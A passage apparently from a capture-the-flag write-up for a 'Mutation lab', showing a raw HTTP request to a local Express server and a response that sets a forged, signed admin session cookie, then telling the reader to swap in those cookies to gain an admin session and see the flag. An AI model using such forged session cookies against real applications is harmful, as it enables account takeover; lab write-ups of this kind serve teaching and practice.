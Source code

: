 ```bash
GET / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0=; path=/; httponly
Set-Cookie: session.sig=EYdvy2mhVoEznETyhYjNYFFZM8o; path=/; httponly
Date: Fri, 20 May 2022 07:04:54 GMT
Connection: close
Content-Length: 15

Hacked By Nehal
```

We can see the forged cookie in the response `Set-Cookie` headers.

Replace our cookies with this pair of cookies to get admin session.

We can see the flag now.

![7.png](Mutation%20lab%2044ba47ec69e94b87bbab0aff5ac66764/7.png)
